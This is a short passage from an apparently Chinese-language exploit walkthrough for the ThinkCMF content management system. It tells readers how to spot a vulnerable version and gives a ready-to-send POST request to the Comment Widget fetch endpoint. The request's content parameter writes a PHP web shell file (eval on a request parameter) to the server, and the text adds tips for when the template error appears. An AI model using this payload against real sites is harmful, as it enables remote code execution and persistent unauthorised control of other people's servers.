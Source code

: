 如果页面是蓝色的表示是3的，可日穿之

##### 3，查看 README.md

在网站url后面输入README.md

![image](../img/66a7fb41690a820a99570045f04e9af6.png)

另外还有一个说明，你在实际操作的过程中，可能会遇到他一直报这个错

```
url:http://thinkcmf.test/index.php?g=Comment&m=Widget&a=fetch
post:
templateFile=/../public/index
prefix=''
content=<php>file_put_contents('test.php','<?php eval($_REQUEST[11]);')</php> 
```

![image](../img/f98abbd0ce23861614a8fec6df6c1297.png)

请放心这并不是说明漏洞不可使用，而是说，这个模版不存在，你可以换一个html即可
